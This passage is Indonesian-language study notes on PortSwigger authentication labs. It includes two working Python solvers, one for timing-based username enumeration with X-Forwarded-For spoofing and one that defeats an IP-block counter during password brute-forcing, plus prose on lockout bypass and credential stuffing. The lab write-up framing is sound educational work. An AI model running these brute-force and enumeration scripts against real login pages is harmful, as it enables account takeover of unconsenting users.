>Catatan: Sebagai tantangan tambahan, lab ini juga menerapkan bentuk proteksi brute-force berbasis IP. Namun, ini mudah dilewati dengan memanipulasi header permintaan HTTP.

**Screenshots:**





Untuk menyelesaikan lab, enumerasi username valid, brute-force kata sandi pengguna tersebut, lalu akses halaman akunnya.

##### Tutorial

1. Lab memblokir IP setelah terlalu banyak gagal login; lewati dengan spoof `X-Forwarded-For` berbeda tiap request.
2. Fase 1: kirim tiap username password sangat panjang (~100 karakter). Jika username ada, server buang waktu hashing, jadi responsnya jauh lebih lambat.
3. Fase 2: brute-force password username yang lambat (valid); sukses = HTTP 302.
4. Login dan buka **My account**.

**Script:**

```python
#!/usr/bin/env python3
"""
Username enumeration via response timing (PortSwigger lab solver).

Lab logic:
  - Too many failed logins -> your IP gets blocked. Bypass by spoofing
    X-Forwarded-For with a different value per request.
  - Timing side channel: if the username EXISTS, the server spends extra time
    hashing the submitted password, so a LONG password makes the response
    noticeably SLOWER. If the username does not exist, timing stays flat.

Phases:
  PHASE 1 (username)  long password (~100 chars) + X-Forwarded-For spoof.
                      Measure elapsed time per username.
                      valid username <=> elapsed time is an outlier (much slower).
  PHASE 2 (password)  for the valid username, try each password.
                      success <=> HTTP 301/302/303/307/308.

No hardcoded usernames or passwords — wordlists come from files.

Usage:
  python3 Username-enumeration-via-response-timing.py \
      --url https://<id>.web-security-academy.net/login \
      --cookie "session=..." \
      --usernames usernames.txt --passwords passwords.txt

  ... --long-password 100     # length of the timing probe password
  ... --slow-factor 1.5       # valid if slower than median * factor
  ... --verbose               # show elapsed time per attempt
  ... --csv timing.csv
  ... --phase usernames
  ... --phase passwords --username <found-user>
  ... --proxy http://127.0.0.1:8080
"""
from __future__ import annotations

import argparse
import csv
import re
import statistics
import sys
import time
from pathlib import Path
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)


def load_list(path: Path) -> list[str]:
    out, seen = [], set()
    for line in path.read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s)
            out.append(s)
    return out


def main() -> int:
    ap = argparse.ArgumentParser(
        description='Username enumeration via response timing (XFF spoof).')
    ap.add_argument('--url', required=True)
    ap.add_argument('--cookie', default='')
    ap.add_argument('--usernames', default='usernames.txt')
    ap.add_argument('--passwords', default='passwords.txt')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--long-password', type=int, default=100,
                    help='length of the timing probe password (default 100)')
    ap.add_argument('--xff-header', default='X-Forwarded-For',
                    help='header used to spoof source IP (default X-Forwarded-For)')
    ap.add_argument('--xff-start', type=int, default=1)
    ap.add_argument('--slow-factor', type=float, default=1.5,
                    help='valid username if elapsed > median * factor (default 1.5)')
    ap.add_argument('--min-delay-ms', type=float, default=0.0,
                    help='optional sleep between requests (seconds)')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (TimingEnumeration)')
    ap.add_argument('--proxy', default='')
    ap.add_argument('--timeout', type=float, default=30.0)
    ap.add_argument('--insecure', action='store_true')
    ap.add_argument('--all', action='store_true')
    ap.add_argument('--verbose', action='store_true')
    ap.add_argument('--csv', default='')
    ap.add_argument('--phase', choices=['usernames', 'passwords', 'both'], default='both')
    ap.add_argument('--username', default='')
    args = ap.parse_args()

    usernames = load_list(Path(args.usernames))
    passwords = load_list(Path(args.passwords))
    if not usernames or not passwords:
        print('error: username/password wordlist is empty', file=sys.stderr)
        return 2

    s = requests.Session()
    s.headers.update({
        'User-Agent': args.user_agent,
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Content-Type': 'application/x-www-form-urlencoded',
    })
    if args.cookie:
        s.headers['Cookie'] = args.cookie

    p = urlparse(args.url)
    vhost = f'{p.scheme}://{p.netloc}'
    s.headers['Origin'] = vhost
    s.headers['Referer'] = vhost + '/login'

    proxies = {'http': args.proxy, 'https': args.proxy} if args.proxy else None
    verify = not args.insecure
    probe_pw = 'A' * args.long_password

    xff_counter = args.xff_start
    rows: list[tuple[str, str, str, int, float, str]] = []

    def attempt(phase: str, user: str, pwd: str):
        nonlocal xff_counter
        headers = {args.xff_header: str(xff_counter)}
        xff_counter += 1
        body = {args.user_field: user, args.pass_field: pwd}
        t0 = time.perf_counter()
        try:
            r = s.post(args.url, data=body, headers=headers,
                       timeout=args.timeout, allow_redirects=False,
                       proxies=proxies, verify=verify)
        except RequestException as e:
            print(f'[!] error {phase} {user}: {e}', file=sys.stderr)
            time.sleep(1)
            return None
        elapsed = time.perf_counter() - t0
        loc = r.headers.get('Location', '')
        rows.append((phase, user, pwd[:24], r.status_code, round(elapsed, 4), loc))
        if args.verbose:
            print(f'    {phase:8s} {user:<16s} status={r.status_code} '
                  f'time={elapsed:.3f}s {loc}', file=sys.stderr)
        if args.min_delay_ms:
            time.sleep(args.min_delay_ms)
        return r, elapsed

    # ---------- PHASE 1: usernames (timing) ----------
    valid: list[str] = []
    if args.phase in ('usernames', 'both') and not args.username:
        print(f'[*] PHASE 1: {len(usernames)} username '
              f'(probe password len={args.long_password}, XFF spoof on)', file=sys.stderr)
        times: list[tuple[str, float]] = []
        for u in usernames:
            res = attempt('user', u, probe_pw)
            if res is None:
                continue
            _, elapsed = res
            times.append((u, elapsed))

        if times:
            vals = [t for _, t in times]
            med = statistics.median(vals)
            thr = med * args.slow_factor
            print(f'[*] median={med:.3f}s threshold={thr:.3f}s '
                  f'(factor {args.slow_factor})', file=sys.stderr)
            for u, t in times:
                if t >= thr:
                    print(f'[+] SLOW (candidate valid): {u} {t:.3f}s', file=sys.stderr)
                    valid.append(u)
            if not valid:
                # fallback: take the single slowest if nothing crossed threshold
                u, t = max(times, key=lambda x: x[1])
                print(f'[!] nothing crossed the threshold; slowest candidate: '
                      f'{u} {t:.3f}s', file=sys.stderr)
                valid.append(u)

    if args.phase == 'usernames':
        print('\nCANDIDATE USERNAMES: ' + (', '.join(valid) if valid else 'none'))
        if args.csv:
            with open(args.csv, 'w', newline='', encoding='utf-8') as f:
                w = csv.writer(f)
                w.writerow(('phase', 'user', 'pass', 'status', 'elapsed', 'location'))
                w.writerows(rows)
            print(f'[*] CSV: {args.csv}', file=sys.stderr)
        return 0 if valid else 1

    # ---------- PHASE 2: passwords ----------
    targets = [args.username] if args.username else valid
    if not targets:
        print('[-] no valid username; skipping phase 2', file=sys.stderr)
        return 1

    print(f'[*] PHASE 2: {len(passwords)} password for {targets}', file=sys.stderr)
    hits: list[tuple[str, str, int]] = []
    for u in targets:
        for pw in passwords:
            res = attempt('pass', u, pw)
            if res is None:
                continue
            r, _ = res
            if r.status_code in (301, 302, 303, 307, 308):
                loc = r.headers.get('Location', '')
                print(f'[+] HIT {u}:{pw} status={r.status_code} {loc}', file=sys.stderr)
                hits.append((u, pw, r.status_code))
                if not args.all:
                    break
        if hits and not args.all:
            break

    if args.csv:
        with open(args.csv, 'w', newline='', encoding='utf-8') as f:
            w = csv.writer(f)
            w.writerow(('phase', 'user', 'pass', 'status', 'elapsed', 'location'))
            w.writerows(rows)
        print(f'[*] CSV: {args.csv}', file=sys.stderr)

    if hits:
        for u, pw, st in hits:
            print(f'HIT {u}:{pw} ({st})')
        return 0
    print('[-] password not found', file=sys.stderr)
    return 1


if __name__ == '__main__':
    sys.exit(main())
```

**Cara menjalankan:**

```bash
python3 Username-enumeration-via-response-timing.py --url https://<id>.web-security-academy.net/login --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>4. Authentication Vulnerabilities - Lab #5 Username enumeration via response timing | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=Non_U2tGG6o
Purpose: Di video ini, kami membahas Lab #5 pada modul Authentication dari Web Security Academy. Lab ini rentan terhadap enumerasi username memakai waktu respons. Untuk menyelesaikan lab, kami enumerasi username valid, brute-force kata sandi pengguna tersebut, lalu akses halaman akunnya.

</details>

<details>
<summary>5. Username enumeration via response timing — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=RO5Wo5jjbWE
Purpose: Video ini menunjukkan solusi lab "Username enumeration via response timing" dari Web Security Academy (PortSwigger)

</details>

</details>

### Proteksi brute-force yang cacat

Sangat mungkin serangan brute-force melibatkan banyak tebakan gagal sebelum penyerang berhasil mengkompromikan akun. Secara logis, proteksi brute-force berpusat pada membuat proses otomatis sesulit mungkin dan memperlambat laju percobaan login penyerang. Dua cara paling umum mencegah brute-force adalah:

- Mengunci akun yang sedang diakses pengguna remote jika terlalu banyak percobaan login gagal.
- Memblokir alamat IP pengguna remote jika terlalu banyak percobaan login dalam waktu singkat.

Kedua pendekatan menawiang tingkat proteksi berbeda, tetapi tidak ada yang kebal, terutama jika diimplementasikan dengan logika cacat.

Contohnya, kamu mungkin menemukan IP diblokir jika gagal login terlalu banyak kali. Pada beberapa implementasi, penghitung jumlah percobaan gagal direset jika pemilik IP berhasil login. Ini berarti penyerang cukup login ke akunnya sendiri setiap beberapa percobaan untuk mencegah batas ini tercapai.

Dalam kasus ini, cukup menyertakan kredensial loginmu sendiri secara berkala di sepanjang wordlist sudah cukup untuk membuat pertahanan ini praktis tidak berguna.

##### Lab: Broken brute-force protection, IP block

Lab ini rentan karena kelemahan logika pada proteksi brute-force kata sandinya. Untuk menyelesaikan lab, brute-force kata sandi korban, lalu login dan akses halaman akunnya.

<details>
<summary>Lab details, screenshots & walkthrough 0.4</summary>

- Kredensialmu: `wiener:peter`
- Username korban: `carlos`
- [Candidate Passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

>Petunjuk: Pengguna tingkat lanjut mungkin ingin menyelesaikan lab ini memakai macro atau ekstensi Turbo Intruder. Namun, lab bisa diselesaikan tanpa fitur tingkat lanjut tersebut.

**Screenshots:**









##### Tutorial

1. Tiga kali gagal login berturut-turut memblokir IP selama satu menit.
2. Counter percobaan gagal direset tiap kali login sukses — jadi login dengan akun sendiri (`wiener:peter`) sebelum tiap tebakan untuk `carlos`.
3. Tiap siklus: POST login sebagai `wiener` (reset counter) lalu POST login sebagai `carlos` dengan kandidat password berikutnya. 302 berarti password benar.
4. Login sebagai `carlos` dan buka **My account**.

**Script:**

```python
#!/usr/bin/env python3
"""
Broken brute-force protection, IP block (PortSwigger lab solver).

Lab logic:
  - 3 failed logins in a row -> your IP is blocked for 1 minute.
  - The failed-attempt counter resets whenever you log in successfully.
  - So: before every guess against the victim, log in with your own account to
    reset the counter. That keeps the counter at 1 and never trips the block.

Attack:
    for each candidate password:
        POST /login  username=<self>  password=<self-pass>   # valid -> counter reset
        POST /login  username=<victim> password=<guess>      # 302 = solved

No hardcoded credentials: self user/pass and victim come from CLI flags.
Wordlists come from files (default passwords.txt).

Usage:
  python3 ai-tools/portswigger/broken_bruteforce_ip_block.py \
      --url https://<id>.web-security-academy.net/login \
      --cookie "session=..." \
      --self-user wiener --self-pass peter \
      --victim carlos \
      --passwords passwords.txt

  ... --max-fails 2        # reset before counter reaches this (default 2)
  ... --delay 0.2          # seconds between requests
  ... --verbose            # show status per attempt
  ... --csv attempts.csv
  ... --proxy http://127.0.0.1:8080
"""
from __future__ import annotations

import argparse
import csv
import re
import sys
import time
from pathlib import Path
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)

BLOCK_RE = re.compile(r'too many incorrect login attempts', re.I)


def load_list(path: Path) -> list[str]:
    out, seen = [], set()
    for line in path.read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s)
            out.append(s)
    return out


def main() -> int:
    ap = argparse.ArgumentParser(
        description='Broken brute-force protection (IP block) lab solver.')
    ap.add_argument('--url', required=True, help='https://<id>.web-security-academy.net/login')
    ap.add_argument('--cookie', default='', help='session cookie value')
    ap.add_argument('--self-user', required=True, help='your own username (counter reset)')
    ap.add_argument('--self-pass', required=True, help='your own password')
    ap.add_argument('--victim', required=True, help="victim's username")
    ap.add_argument('--passwords', default='passwords.txt')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--max-fails', type=int, default=2,
                    help='reset the counter before this many consecutive failures (default 2)')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (BruteForceProtection)')
    ap.add_argument('--proxy', default='')
    ap.add_argument('--delay', type=float, default=0.0)
    ap.add_argument('--timeout', type=float, default=20.0)
    ap.add_argument('--insecure', action='store_true')
    ap.add_argument('--verbose', action='store_true')
    ap.add_argument('--csv', default='')
    args = ap.parse_args()

    passwords = load_list(Path(args.passwords))
    if not passwords:
        print('error: password wordlist is empty', file=sys.stderr)
        return 2

    s = requests.Session()
    s.headers.update({
        'User-Agent': args.user_agent,
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.9',
        'Content-Type': 'application/x-www-form-urlencoded',
    })
    if args.cookie:
        s.headers['Cookie'] = args.cookie

    p = urlparse(args.url)
    vhost = f'{p.scheme}://{p.netloc}'
    s.headers['Origin'] = vhost
    s.headers['Referer'] = vhost + '/login'

    proxies = {'http': args.proxy, 'https': args.proxy} if args.proxy else None
    verify = not args.insecure

    rows: list[tuple[str, str, str, int, str]] = []

    def post(user: str, pwd: str):
        try:
            r = s.post(args.url,
                       data={args.user_field: user, args.pass_field: pwd},
                       timeout=args.timeout, allow_redirects=False,
                       proxies=proxies, verify=verify)
        except RequestException as e:
            print(f'[!] request error ({user}) -> {e}', file=sys.stderr)
            time.sleep(1)
            return None
        if args.delay:
            time.sleep(args.delay)
        return r

    def reset_counter() -> bool:
        """Log in with your own account to reset the failed-attempt counter."""
        r = post(args.self_user, args.self_pass)
        if r is None:
            return False
        ok = r.status_code in (301, 302, 303, 307, 308)
        rows.append(('reset', args.self_user, args.self_pass, r.status_code,
                     r.headers.get('Location', '')))
        if args.verbose:
            print(f'    reset    {args.self_user:<10s} status={r.status_code} '
                  f'{r.headers.get("Location", "")}', file=sys.stderr)
        return ok

    # make sure we start from a clean counter
    reset_counter()

    print(f'[*] victim={args.victim} passwords={len(passwords)} '
          f'reset_user={args.self_user}', file=sys.stderr)

    fails = 0
    hit = None
    for i, pw in enumerate(passwords, 1):
        r = post(args.victim, pw)
        if r is None:
            continue
        body = r.text or ''
        status = r.status_code
        loc = r.headers.get('Location', '')
        rows.append(('guess', args.victim, pw, status, loc))

        if status in (301, 302, 303, 307, 308):
            print(f'[+] HIT {args.victim}:{pw} status={status} {loc}', file=sys.stderr)
            hit = pw
            break

        if BLOCK_RE.search(body):
            print(f'[-] IP blocked at attempt {i}; waiting 60s', file=sys.stderr)
            rows.append(('blocked', args.victim, pw, status, ''))
            time.sleep(60)
            reset_counter()
            fails = 0
            continue

        fails += 1
        if args.verbose:
            print(f'    [{i:3d}] {pw:<14s} status={status} fails={fails}', file=sys.stderr)
        elif i % 10 == 0:
            print(f'[*] {i}/{len(passwords)} tried', file=sys.stderr)

        if fails >= args.max_fails:
            reset_counter()
            fails = 0

    if args.csv:
        with open(args.csv, 'w', newline='', encoding='utf-8') as f:
            w = csv.writer(f)
            w.writerow(('action', 'user', 'password', 'status', 'location'))
            w.writerows(rows)
        print(f'[*] CSV: {args.csv}', file=sys.stderr)

    if hit:
        print(f'HIT {args.victim}:{hit}')
        return 0
    print('[-] password not found', file=sys.stderr)
    return 1


if __name__ == '__main__':
    sys.exit(main())
```

**Cara menjalankan:**

```bash
python3 Broken-brute-force-protection-IP-block.py --url https://<id>.web-security-academy.net/login --self-user wiener --self-pass peter --victim carlos --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>5. Authentication Vulnerabilities - Lab #6 Broken brute-force protection, IP block | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=qXt5yqGa8ZA
Purpose: Di video ini, kami membahas Lab #6 pada modul Authentication dari Web Security Academy. Lab ini rentan karena kelemahan logika pada proteksi brute-force kata sandinya. Untuk menyelesaikan lab, kami brute-force kata sandi korban, lalu login dan akses halaman akunnya.

</details>

</details>

### Account locking

Satu cara situs mencegah brute-force adalah mengunci akun jika kriteria mencurigakan tertentu terpenuhi, biasanya sejumlah percobaan login gagal. Sama seperti error login normal, respons server yang menandakan akun terkunci juga bisa membantu penyerang melakukan enumerasi username.

Mengunci akun menawiang tingkat proteksi terhadap brute-force tertarget pada akun spesifik. Namun pendekatan ini gagal mencegah brute-force yang dilakukan penyerang untuk mendapatkan akses ke akun acak mana pun.

### Account locking - Lanjutan 1

Contohnya, metode berikut bisa memutar sekeliling proteksi semacam ini:

1. Buat daftar calon username yang kemungkinan valid. Bisa melalui enumerasi username atau sekadar berbasis daftar username umum.
2. Tentukan daftar pendek kata sandi yang sangat kecil, yang kamu kira setidaknya satu pengguna mungkin punya. Krusial, jumlah kata sandi yang dipilih tidak boleh melebihi jumlah percobaan login yang diizinkan. Contohnya, jika kamu tahu batasnya 3 percobaan, kamu perlu memilih maksimal 3 tebakan kata sandi.
3. Memakai alat seperti Burp Intruder, coba setiap kata sandi terpilih dengan setiap calon username. Dengan begitu, kamu bisa mencoba brute-force setiap akun tanpa memicu penguncian akun. Kamu hanya perlu satu pengguna memakai salah satu dari tiga kata sandi untuk mengkompromikan akun.

### Account locking - Lanjutan 2

Penguncian akun juga gagal melindungi terhadap serangan credential stuffing. Ini melibatkan penggunaan kamus besar berisi pasangan `username:password`, yang disusun dari kredensial login asli yang dicuri dalam pelanggaran data. Credential stuffing mengandalkan fakta bahwa banyak orang memakai ulang username dan kata sandi yang sama di banyak situs, jadi ada kemungkinan sebagian kredensial yang dikompromikan di kamus itu juga valid di situs target. Penguncian akun tidak melindungi terhadap credential stuffing karena setiap username hanya dicoba sekali. Credential stuffing sangat berbahaya karena kadang bisa mengakibatkan penyerang mengkompromikan banyak akun berbeda hanya dengan satu serangan otomatis.

##### Lab: Username enumeration via account lock

Lab ini rentan terhadap enumerasi username. Lab memakai account locking, tetapi ini mengandung kelemahan logika. Untuk menyelesaikan lab, enumerasi username valid, brute-force kata sandi pengguna tersebut, lalu akses halaman akunnya.

<details>
<summary>Lab details, screenshots & walkthrough 0.5</summary>

- Kredensialmu: `wiener`:`peter`
- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**Screenshots:**

